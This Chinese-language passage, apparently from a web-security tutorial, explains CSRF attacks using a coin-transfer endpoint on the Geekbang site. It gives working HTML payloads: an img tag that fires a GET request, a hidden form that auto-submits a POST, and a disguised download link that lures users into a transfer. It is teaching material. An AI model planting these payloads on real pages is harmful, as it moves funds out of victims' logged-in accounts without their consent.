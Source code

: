 常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击：

**1.** **自动发起 Get 请求**

```javascript
<!DOCTYPE html> 
 <html> 
    <body> 
    	<h1> 黑客的站点：CSRF 攻击演示 </h1> 
		<img src="https://time.geekbang.org/sendcoin?user=hacker&number=100"> 
    </body> 
</html>
```

​	这是黑客页面的 HTML 代码，在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 极客币就被转移到黑客的账户上去了。

**2.** **自动发起POST请求**

​	除了自动发送 Get 请求之外，有些服务器的接口是使用 POST 方法的，所以黑客还需要在他的站点上伪造 POST 请求，当用户打开黑客的站点时，是自动提交 POST 请求，具体的方式你可以参考下面示例代码：

```javascript
<!DOCTYPE html>
<html>
<body>
  <h1> 黑客的站点：CSRF 攻击演示 </h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

​	该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。

**3.** **引诱用户点击链接**

​	诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：

```javascript
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> 
</div> 

<div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```

​	页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。

如果当用户登录了极客时间，以上三种 CSRF 攻击方式中的任何一种发生时，那么服务器都会将一定金额的极客币发送到黑客账户。**和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击**。
